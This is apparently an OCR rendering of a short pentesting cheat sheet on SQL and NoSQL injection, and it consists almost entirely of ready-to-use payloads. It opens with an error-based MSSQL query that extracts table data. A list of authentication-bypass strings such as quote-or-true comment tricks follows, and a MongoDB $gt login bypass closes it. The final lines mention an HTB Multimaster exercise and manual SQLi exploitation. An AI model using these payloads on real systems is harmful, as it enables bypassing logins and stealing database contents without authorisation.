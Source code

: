 ```
1 AND 1=CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 other_column FROM (SELECT top N other_column FROM other_database..other_table ORDER BY other_column ASC) sq ORDER BY other_column DESC)+CHAR(58)+CHAR(58)))--


# other blind, union based, time based.

```

### bypass payload

```
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x

#nosql  injection
{"user":{"$gt": ""},"pass":{"$gt": ""}}
```

### python scripts
+ htb multimaster, ipsec video.
+ manual exploit sqli
